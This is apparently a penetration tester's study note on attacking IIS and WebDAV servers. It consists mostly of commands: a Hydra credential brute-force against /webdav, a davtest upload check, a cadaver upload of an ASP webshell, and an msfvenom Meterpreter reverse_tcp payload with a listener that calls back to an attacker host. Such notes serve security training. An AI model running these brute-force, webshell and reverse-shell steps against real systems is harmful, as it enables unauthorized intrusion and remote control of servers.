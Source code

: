 # HTTP

- Microsoft IIS
  - Hosts Web pages developed in ASP.NET and PHP.
  - Supported executable file extensions: .asp, .aspx, .config, .php.

- WebDAV typically runs on Apache on MS IIS.
  - Manage files on remote Web server.
  - Requires credentials.

## WebDAV
- "DAVTest tests WebDAV-enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable."

```
nmap -Pn -sV -p80 --script=http-webdav-scan,http-enum <ip>
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> http-get /webdav
```

```
curl http://<ip>/webdav/ -u <username>:<password>
```

```
davtest -url http://<ip>/webdav -auth <username>:<password>
```

```
cadaver http://<ip>/webdav
Username: <username>
Password: <password>

dav:/webdav/> help
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
==> A webshell is a shell that you can access through the Web. It is not a reverse shell.

http://<ip>/webdav/webshell.asp
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp > reverse.asp

msf > use /multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST <ip>
msf > set LPORT <port>
msf > exploit

http://<ip>/webdav/reverse.asp
==> Does not work, even with .aspx, why?
```
